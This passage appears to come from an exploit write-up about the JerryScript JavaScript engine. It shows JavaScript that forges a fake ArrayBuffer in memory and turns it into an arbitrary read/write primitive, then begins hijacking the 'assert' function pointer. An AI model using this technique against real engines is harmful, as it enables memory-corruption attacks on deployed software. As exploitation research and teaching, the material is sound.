 As you can see there are two modes of operation. So I use it to create an arbitrary read/write primitive very easily.
```javascript
//recipe for arraybuffer class
haystack[idx++] = 0x1;
haystack[idx++] = 0x0;  

haystack[idx++] = 0x11;
haystack[idx++] = 0x22;

haystack[idx++] = 0x33;
haystack[idx++] = 0x44;

haystack[idx++] = 0x55;
haystack[idx++] = 0x66;

// specific parts for arraybyffer

// 1. type of class
haystack[idx++] = 0x18;

// 2. ArrayBuffer flags. (2 is detached, 1 is external memory)
haystack[idx++] = 0x1;
haystack[idx++] = 0x00;

// 3. meainingless
haystack[idx++] = 0x00;

// 4. length
haystack[idx++] = 0xf0;
haystack[idx++] = 0xff;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;

// external buffer
let old_idx = idx;
haystack[idx++] = shift(addr, 0) & 0xFF;
haystack[idx++] = shift(addr, 8) & 0xFF;
haystack[idx++] = shift(addr, 16) & 0xFF;
haystack[idx++] = shift(addr, 24) & 0xFF;
haystack[idx++] = shift(addr, 32) & 0xFF;
haystack[idx++] = shift(addr, 40) & 0xFF;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;

var fo = fakeObj(0x5000);
var arw = new Float64Array(fo);
```

So, by accessing the array `arw` we can read and write to `addr`. Now we are nearly done. 

## Finalizing
A function pointer we can hijack is global functions, such as globals like `assert`. So I wrote code that finds the `assert` function from the JerryScript heap.
